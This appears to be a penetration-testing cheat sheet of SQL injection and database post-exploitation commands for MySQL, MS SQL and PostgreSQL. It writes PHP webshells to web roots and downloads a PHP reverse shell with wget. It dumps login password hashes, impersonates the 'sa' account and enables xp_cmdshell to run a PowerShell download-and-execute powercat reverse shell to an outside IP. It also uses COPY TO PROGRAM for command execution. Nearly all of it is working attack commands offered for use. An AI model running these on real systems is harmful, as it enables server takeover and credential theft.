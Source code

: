 ```sql
SELECT GROUP_CONCAT(col1,'+',col2,':') from tables; -- combines multiple rows and columns into single entry

-- indirect cmd exec through file upload
SELECT '<?php system($_GET["cmd"]);?>' INTO OUTFILE '/var/www/html/tmp/webshell.php' -- error displayed shouldn't impact the file creation

9999 union select 1,(select '<?php exec(\"wget -O /var/www/html/shell.php http://10.10.14.12:5555/php-reverse-shell.php\");?>'),3,4,5,6,7 INTO OUTFILE '/var/www/html/test4.php'


-- MS SQL
select @@version;
use database;
SELECT name FROM sys.databases;
SELECT * FROM <database>.information_schema.tables;
select * from database.dbo.users;
SELECT name FROM sys.tables; -- to see all the tables within the specific database
SELECT table_catalog, table_name, column_name FROM information_schema.columns 
SELECT * FROM sysusers;
SELECT name, type_desc FROM sys.all_objects;
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'your_table_name' AND TABLE_SCHEMA = 'dbo';
SELECT string_agg(COLUMN_NAME,',') FROM database.INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users';
string_agg(table_name,',')

-- To enumerate users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

-- SQL Server has a special permission, named `IMPERSONATE`, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends.
-- Link : [hacktricks impersonation of the users](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html#impersonation-of-other-users)
-- Find users you can impersonate 
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE' 
--Check if the user "sa" or any other high privileged user is mentioned # Impersonate sa user 
EXECUTE AS LOGIN = 'sa' 
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

-- For enabling xp_cmdshell with having privs
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
-- for cmd exec
EXECUTE xp_cmdshell 'whoami';
-- During sql exploitation combine all of these command in stack SQL query
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.119.3/psh_scripts/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell ';


-- POSTGRESQL
string_agg(table_name,',') -- group_concat alternative
SELECT usename, passwd FROM pg_shadow
-- for cmd exec, use ; semicolon to end the previous statement because COPY command runs as a seperate SQL comand in stacked SQL query
COPY (SELECT '') to PROGRAM 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```